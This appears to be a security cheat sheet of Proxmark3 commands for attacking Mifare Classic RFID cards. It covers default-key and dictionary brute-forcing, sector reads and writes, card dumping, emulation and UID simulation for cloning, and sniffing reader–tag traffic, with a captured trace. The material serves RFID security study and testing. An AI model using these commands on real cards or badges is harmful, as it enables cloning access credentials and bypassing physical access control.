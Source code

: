 ### Key Bruteforce/Dictionary attack

```powershell
hf mf chk *1 ? t                # Default keys
hf mf chk *1 ? d default_keys.dic
hf mf chk 0 A default_keys.dic  # Dictionary attack with file: default_keys.dic
```

### Write and read sectors

> Avoid writing wrbl 3 (contains key A/B + permissions)

```powershell
proxmark3> hf mf wrbl 1 a ffffffffffff 000102030405060708090a0b0c0d0e0f   
proxmark3> hf mf wrbl 2 a ffffffffffff 464c4147313a4d31664072335f303037
```

```powershell
hf mf rdsc <sector number> <key A/B> <key (12 hex symbols)>
```

### Dump Mifare card

```powershell
proxmark3> hf mf dump 1 k hf-mf-A29558E4-key.bin f hf-mf-A29558E4-data.bin

<card memory>: 0 = 320 bytes (Mifare Mini), 1 = 1K (default), 2 = 2K, 4 = 4K
k <name>     : key filename, if no <name> given, UID will be used as filename
f <name>     : data filename, if no <name> given, UID will be used as filename
```

### Simulate and emulate Mifare card

Emulate from a dump file

```powershell
# convert .bin to .eml
proxmark3> script run dumptoemul -i dumpdata.bin
proxmark3> hf mf eload <file name w/o .eml>
```

Simulate Mifare 1K UID

```powershell
proxmark3> hf mf sim u 353c2aa6
```

### MITM attack

```powershell
hf 14a snoop
# read card
# push button

hf list 14a
089220 |   095108 | Tag | 4d  xx  xx  xx  d3                                              |     | UID
114608 |   125072 | Rdr | 93  70  4d  xx  xx  xx  d3  4f  8d                              |  ok | SELECT_UID
...
525076 |   529748 | Tag | 61  7a  66  18                                                  |     | TAG CHALLENGE
540608 |   549920 | Rdr |50! 87!  8e  ab 3b!  49  5a  1b                                  | !crc| HALT
551188 |   555860 | Tag |d6! 53!  7c 57!                                                  |     | TAG RESPONSE
UID: 4dxxxxxxd3
TAG CHALLENGE: 617a6618
READER CHALLENGE: 50878eab
```